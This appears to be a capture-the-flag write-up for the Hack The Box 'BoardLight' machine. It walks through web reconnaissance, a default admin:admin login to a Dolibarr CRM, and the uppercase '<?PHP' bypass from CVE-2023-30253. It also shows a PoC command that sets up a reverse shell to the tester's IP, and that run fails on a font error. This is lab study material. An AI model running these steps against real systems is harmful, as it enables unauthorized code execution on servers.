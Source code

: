 ```console
$ whatweb -a3 http://t
http://t [200 OK] Apache[2.4.41], Bootstrap[4.3.1], Country[RESERVED][ZZ], Email[info@board.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.11], JQuery[3.4.1], Script[text/javascript], X-UA-Compatible[IE=edge]
```

```console
$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://t/ -H 'Host: FUZZ.board.htb' -ac
...
________________________________________________
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 131ms]
```

Added `crm.board.htb` to `/etc/hosts`.

## RCE

Credentials `admin:admin` work.

[CVE-2023-30253](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-30253) says:

> Dolibarr before 17.0.1 allows remote code execution by an authenticated user via an uppercase manipulation: `<?PHP` instead of `<?php` in injected data.

I use the panel to create a new site.

Per the CVE, I'll use uppercase `PHP` for the PHP shellcode.

Unfortunately, my saved pages kept disappearing. I think HTB is resetting the state via cron or something. So, I'll need an automated way to do it more quickly. There is a [PoC](https://github.com/Rubikcuv5/cve-2023-30253) available which predates this HTB challenge but otherwise seems tailored specifically for it, including the vhost name. I'm guessing the author of this challenge wrote the PoC?

```console
$ pip3 install -r requirements.txt
Defaulting to user installation because normal site-packages is not writeable
Requirement already satisfied: beautifulsoup4==4.12.3 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 1)) (4.12.3)
...

  kali@kali:~/boardlight/cve-2023-30253 (main)
$ python3 ./CVE-2023-30253.py --url http://crm.board.htb -u admin -p admin -r 10.10.14.2 443
Traceback (most recent call last):
  File "/home/kali/boardlight/cve-2023-30253/./CVE-2023-30253.py", line 319, in <module>
    main()
  File "/home/kali/boardlight/cve-2023-30253/./CVE-2023-30253.py", line 300, in main
    print(f"{Fore.CYAN}{pyfiglet.figlet_format('CVE', font='isometric1')}{Style.RESET_ALL}")
                        ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/pyfiglet/__init__.py", line 67, in figlet_format
    fig = Figlet(font, **kwargs)
          ^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/pyfiglet/__init__.py", line 862, in __init__
    self.setFont()
  File "/usr/lib/python3/dist-packages/pyfiglet/__init__.py", line 869, in setFont
    self.Font = FigletFont(font=self.font)
                ^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/pyfiglet/__init__.py", line 128, in __init__
    self.data = self.preloadFont(font)
                ^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/pyfiglet/__init__.py", line 168, in preloadFont
    raise FontNotFound(font)
pyfiglet.FontNotFound: isometric1
^ rc=1
```
